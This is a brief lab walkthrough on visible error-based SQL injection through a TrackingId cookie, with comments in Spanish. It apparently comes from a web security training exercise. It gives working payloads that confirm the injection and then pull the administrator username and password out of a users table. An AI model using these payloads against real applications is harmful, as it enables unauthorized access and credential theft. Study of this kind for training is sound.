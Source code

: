 ### LAB: Visible error-based SQL injection `TrackingId` 

Adding a single quote to the end of the `TrackingId` cookie value, we can _**identify**_ and confirm the SQL Injection based on the message in the response.

```js
TrackingId=VALUE-trackingId'
//Pero para el ataque dejamos la cookie con el valor de x
//TrackingId=x'ATTACK
```


![](Pasted%20image%2020250222223025.png)

> The two payloads validate administrator record is the first record, and then to retrieve the password for the Administrator account from the `user` table in the database, from the columns `username` and `password`.

```js
//Este nos retorna el username (administrator) ya que filtramos el limite al primero 1
TrackingId=x'AND 1=CAST((SELECT username FROM users LIMIT 1)AS int)--
//Con ello en mente ya solo mejoramos la busqueda no para user sino para password.
TrackingId=x'||CAST((SELECT password FROM users LIMIT 1) AS int)--;
```
